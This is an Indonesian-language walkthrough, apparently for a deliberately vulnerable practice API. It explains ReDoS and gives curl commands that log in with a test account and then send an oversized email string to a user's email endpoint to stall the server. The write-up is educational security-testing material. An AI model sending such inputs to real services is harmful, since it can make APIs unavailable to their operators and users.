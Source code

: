 # Regular expression Denial of Service - ReDoS
Regular expression Denial of Service (ReDoS) adalah serangan Denial of Service, yang mengeksploitasi sebagian besar implementasi Regular Expression yang dapat mencapai situasi ekstrem dan menyebabkannya bekerja sangat lambat (secara eksponensial terkait dengan ukuran input). Penyerang dapat menyebabkan program yang menggunakan Regular Expression (Regex) memasuki situasi ekstrem ini dan kemudian hang dalam waktu yang sangat lama. Celah keamanan ini berada di endpoint `/users/v1/{username}/email`. Untuk mengakses endpoint ini kita harus login tersebut dengan akun baru yang berhasil kita buat sebelumnya

```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

- Sekarang kita coba ubah email akun user `name1` dengan inputan string yang sangat panjang misalnya `aaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/email -d '{"email":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

- Dari percobaan diatas terlihat bahwa semakin panjang inputan string yang berikan, server akan semakin lama untuk memprosesnya. Hal ini dapat menyebabkan layanan API tidak dapat diakses dalam kurun waktu tertentu